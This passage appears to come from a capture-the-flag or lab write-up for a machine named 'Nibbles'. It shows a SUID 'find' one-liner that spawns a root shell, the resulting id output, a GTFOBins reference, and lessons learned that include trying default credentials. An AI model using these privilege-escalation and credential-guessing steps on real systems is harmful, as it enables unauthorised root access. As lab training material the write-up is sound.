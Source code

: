 ### Exploit and Proof:

```
find . -exec /bin/sh \; -quit

id 
uid=106(postgres) gid=113(postgres) euid=0(root) groups=113(postgres),112(ssl-cert)

```

![Untitled](%E2%80%9CNibbles%E2%80%9D%2099d7de12082a4c8e95badfefbe39a16e/Untitled%204.png)

Reference:

[find | GTFOBins](https://gtfobins.github.io/gtfobins/find/)

### Lessons Learned:

1. Even though the command may say that it requires authentication but still grants RCE, still try to run it against the system regardless.
2. GOOGLE DEFAULT CREDENTIALS AND USE THEM AGAINST THE SYSTEM — BASIC BUT HIGHLY EFFECTIVE.
3. Do manual enumeration first! Then move to an automated solution as a last effort!